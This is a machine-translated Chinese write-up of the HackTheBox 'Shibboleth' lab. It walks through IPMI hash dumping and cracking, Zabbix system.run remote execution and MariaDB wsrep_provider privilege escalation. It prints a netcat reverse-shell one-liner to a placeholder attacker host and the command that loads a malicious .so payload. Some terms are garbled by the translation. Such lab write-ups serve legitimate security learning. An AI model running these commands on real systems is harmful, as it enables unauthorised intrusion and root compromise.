# 黑客 IPMI 和扎比克斯在 HackTheBox-Shibboleth

> 原文：<https://infosecwriteups.com/hacking-ipmi-and-zabbix-in-hackthebox-shibboleth-e48c4f235faf?source=collection_archive---------0----------------------->



# 端口扫描

**TCP**

将`shibboleth.htb`添加到`/etc/hosts`文件。

**UDP**

找到的其他港口都在`open|filtered`州，我没有把它们包括在结果中。

# **网络服务器枚举**

## 虚拟主机扫描

我们将使用`ffuf`来执行 vhost 扫描。

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -o ffuf-vhosts.out -u [http://shibboleth.htb](http://shibboleth.htb) -H -fw 18
```

找到虚拟主机:

*   班长
*   监视
*   扎比克斯

这三个虚拟主机把我们带到了同一个页面。它是一个名为 **Zabbix 的监控工具。**

Zabbix 的 v5.0 有一个认证旁路，但是它不能在服务器上的 Zabbix 应用程序中使用。我们走进了死胡同。

# UDP 端口 623

在谷歌上快速搜索 UDP 端口 623 时，我发现了 IPMI(智能平台管理接口)协议和基板管理控制器(BMC)。查看这些资源以进一步了解:

*   [https://www . rapid 7 . com/blog/post/2013/07/02/a-penetration-testers-guide-to-IPMI](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/)
*   [https://book.hacktricks.xyz/pentesting/623-udp-ipmi](https://book.hacktricks.xyz/pentesting/623-udp-ipmi)

我启动了 metasploit 来使用它的 ipmi 模块



我们发现了一个管理哈希

```
Administrator:836b54da82180000cffc521f48855e4dc4c55663cafc675e4719b43992d8faadc55b2cb9fd8c2d5fa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:3c62b4109945ae35ba1998f6348ac490bbad6a65
```

以 hashcat 格式保存输出(通过设置正确的选项并重新运行漏洞)，并使用 hashcat 来破解散列

```
.\hashcat.exe -D2 -m 7300 .\passwords\shibboleth-ipmi.txt .\rockyou.txt
```

破解密码:`**ilovepumk********`

使用密码以`Administrator`的身份登录 Zabbix 门户网站。

# Zabbix 门户网站

我看到不同的文章/博客讨论了通过 Zabbix 利用 API 通过`/api_jsonrpc.php`的问题，但是所有对该端点的请求都返回了 403 禁止状态代码。



我检查了其他在系统上获得 shell 的方法…在 Zabbix 控制台中，进入 Configuration = > Hosts = > shibboleth . htb，我们有许多不同的页面，其中一个是`Items`。它包含不同的命令及其各自的键。让我们创建一个项目来查看所有可用的项目:



有一个叫`system.run[command,<mode>]`的特定键看起来很有意思。它允许我们在主机上运行命令。我们可以让 RCE 加入这个系统。

通读 https://www.zabbix.com/documentation/5.0/manual[的文档，我知道我们只需要如下设置密钥，并测试我们的反向外壳是否工作:](https://www.zabbix.com/documentation/5.0/manual)

首先在端口 1337 设置一个 netcat 监听器，并按如下方式设置密钥:

```
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc YOUR_IP_HERE 1337 >/tmp/f, nowait]
```

将需要第二个参数`nowait`(默认设置为`wait`)。如果没有这个参数，外壳会立即掉落。



# 作为 zabbix 用户的 Shell

现在我们已经在系统上有了一个 shell，作为`zabbix`用户，让我们列举一下这个系统。还有一个用户账号`ipmi-svc`。我们需要将我们的权限提升给该用户，以获得用户标志。我搜索了各种东西，如配置文件、以其他用户身份在系统上运行的进程等，但找不到任何有用的东西，因此陷入了死胡同。然后我看到了 ipmi 的配置文件，其中存储了用户的凭证。



虽然它和我之前发现的密码一样，但是我没有尝试在`ipmi-svc`用户身上重复使用这个密码。现在让我们试试:)

密码对用户有效，我们得到一个外壳`ipmi-svc`。

# 作为 ipmi-svc 用户的 Shell

我以这个用户的身份再次在系统上开始枚举，并发现了一个有趣的文件，它属于组`ipmi-svc`。这是 zabbix 服务器的配置文件。



它包含数据库凭据。

我检查了数据库和表格中的任何密码哈希，发现了一些河豚哈希。



但是我不能破解任何哈希:(

是时候向前看了。

# 壳作为根

我回去再次列举系统，但找不到任何有用的东西。我决定跳回 SQL 登录，我想到的一件事是检查数据库的版本，看看它是否有漏洞。


MariaDB 版本`10.3.25-MariaDB-0ubuntu0.20.04.1`

此版本的 MariaDB 易受操作系统命令注入漏洞的攻击。我在这里发现了一个漏洞[https://packets storm security . com/files/162177/Maria db-10.2-Command-execution . html](https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html)

针对此漏洞，我们需要创建一个恶意的共享对象文件(`.so`)文件。我们将使用 msfvenom 来设计我们的漏洞。步骤如下所示:



将恶意的`test.so`文件转移到 shibboleth 机器上。在本地机器上设置一个监听器并登录到 mysql:

```
mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/dev/shm/test.so";'
```



并且…我们得到一个 shell 作为根:)

# 超越根

我想用一个简短的 beyond root 部分来结束这篇文章，这是我从 [@0xdf_](https://twitter.com/0xdf_) 的 Beyond Root 视频中获得的灵感(你绝对应该看看[他的 YouTube 频道](https://www.youtube.com/c/0xdf0xdf))。我决定为这个盒子做一点超越根的部分。我们将重温之前我们看到的,`/api_jsonrpc.php`处的 Zabbix API 端点以 403 禁止状态码响应的部分。这阻止了我们使用它的 API 端点。让我们检查位于`/etc/apache2/sites-enabled/000-default.conf`的 apache vhost 配置文件。



我们看到，对于 Zabbix vHost，这些端点被设置为拒绝来自所有主机的连接。

从 Apache 文档中，

> *`*<Location>*`*指令通过 URL* 限制了所包含指令的范围*

*因此，在框中的配置文件中，它用于仅为设置的端点显式指定配置。在 Location 指令中，我们还有三个指令集:*

*   *命令*
*   *否认*
*   *允许*

*这些用于控制对服务器特定部分的访问。根据客户端的特征(如主机名和 IP 地址)来控制访问。Allow 和 Deny 指令指定哪些客户端可以或不可以访问服务器。Order 指令设置默认访问状态，并配置 Allow 和 Deny 指令如何相互交互。*

*需要注意的一点是，这些行在配置文件中出现的顺序并不重要。所有允许和拒绝行都作为单独的组进行处理。然而，Order 指令本身的顺序是很重要的。`Order deny,allow`不同于`Order allow,deny`。*

*在第一个示例中，首先处理所有的拒绝指令。如果请求主机匹配，除非它也匹配 Allow 指令，否则将被拒绝。允许不匹配任何 Allow 或 Deny 指令任何其他请求。*

*在后一种情况下，首先处理所有的 Allow 指令。要被允许，请求客户端的主机必须至少与其中一个匹配。否则，该请求将被拒绝。然后处理所有拒绝指令。如果有任何匹配，该请求也会被拒绝。默认情况下，不匹配任何 Allow 或 Deny 指令任何其他请求都会被拒绝。*

*所以根据 Shibboleth 框中的配置，*

```
*Order deny,allow 
Deny from all 
Allow from 127.0.0.1*
```

*顺序是`deny,allow`。因此将首先处理拒绝指令。这里，**所有的**请求都将被拒绝，除非是来自 **127.0.0.1** 的请求将被允许。*

*希望您在这个超越根的部分学到了一些新东西。*

*下期再见:)*

**最初发表于*[*【https://github.com】*](https://github.com/xplo1t-sec/CTF/blob/master/HackTheBox/machines/Shibboleth/README.md)*。**